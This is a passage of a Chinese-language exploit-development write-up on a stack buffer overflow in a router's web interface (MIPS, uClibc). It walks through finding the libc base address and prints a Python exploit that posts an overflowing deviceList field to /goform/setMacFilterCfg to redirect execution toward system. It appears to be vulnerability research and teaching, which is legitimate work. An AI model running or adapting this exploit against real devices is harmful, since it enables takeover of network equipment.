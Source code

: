 可以看到刚刚好。  
##   
##   
```
```  
###   
### 寻找libc基址  
  
  
漏洞利用首先需要找到libc.so.0的基址，同样和之前的CVE-2018-5767一样，同样vmmap无法使用，但是这里我还是找到了一个比较特殊的方法找到了基址。  
  
   
  
我在strcpy处打了个断点，然后发现并没有在相关位置断下来，然后就bt查看调用链，发现了调用了uClibc_main，根据ida的交叉引用也可以直接到相应位置，这个位置感觉相当于mips程序的start函数。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZY6dQFNn7KeqWHloAzaqNRgEAr5dFu9k1mzATZGZJURld8r6qdcyTvpQ/640?wx_fmt=png "")  
  
然后用ida载入libc.so.0，去exports查看对应的函数地址，发现在0x0005F804，当然也可以用readelf -s ./lib/libc.so.0 | grep uClibc_main。  
  
  
然后我以为两个地址相减就可以得到libc基址的时候，0x7f583a08-0x0005F804=0x7F524204，实际上明显可以看出不对，一般基址后面几个数会是0。  
  
   
  
抱着试一试的想法去看看能不能跳到system，编写exp如下。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
 
libc_base=0x7f583a08-0x0005F804
system=0x0060320
 
system_addr=libc_base+system
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(system_addr)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
在溢出最后的跳转处，0x04E8204打断点，运行exp，断下来。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYGicXJyoTw7iabPN07UyD45FL7JcoiaNUNicKODGVWJ7Ud1VHKvMSe00ovw/640?wx_fmt=png "")  
  
可以看到运气较好的是，我们仍然在libc中，但是不知道具体位置，这时候我们可以用ida的字符串搜索功能，去尝试搜索到对应的位置。  
  
   
  
这里我是alt+t搜索addiu $sp, 0x30，当然搜索syscall也行。并且再次根据后两个字节4c过滤了大量结果。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYYmfhwALkdmibmRdAg3XnbFy0qvw2rzx4GvAl8yDWSmNzbBKL3xc5fug/640?wx_fmt=png "")  
  
成功找到对应偏移位置，0x0006054C，由于关了aslr，所以基址不变，得到libc_base=0x7f58454c - 0x0006054C = 0x7F524000  
  
   